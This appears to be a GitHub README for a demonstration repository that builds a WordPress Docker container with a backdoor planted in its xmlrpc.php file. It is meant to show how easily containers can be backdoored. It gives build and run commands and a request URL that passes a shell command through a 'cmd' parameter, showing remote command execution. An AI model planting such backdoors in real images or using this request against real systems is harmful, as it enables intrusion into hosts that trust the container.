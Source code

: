 # backdoored-container
The purpose of this repository is to show a simple backdoored container and how easy is it to backdoor any container on the internet. It is a wordpress container that runs normally but in the xmlrpc.php file there is a simple malicious line of code.
![image](https://github.com/diego-tella/backdoored-container/assets/70545257/1bddb3bd-f9fe-49a5-aeab-24f861194969)


Building the image:
```
$ docker build -t backdoorwp .
```

Initializing:
```
$ docker run --name backdoor_wp -d -p 80:80 backdoorwp
```
Oh! A beautiful wordpress container!
![image](https://github.com/diego-tella/backdoored-container/assets/70545257/b292184c-9e5c-4e46-bfad-1ecdd514d7f5)

And RCE in the container:
```
http://127.0.0.1/wordpress/xmlrpc.php?cmd=id
```
![image](https://github.com/diego-tella/backdoored-container/assets/70545257/cf88757b-1d9c-4bbb-9a22-82af7b3e2441)
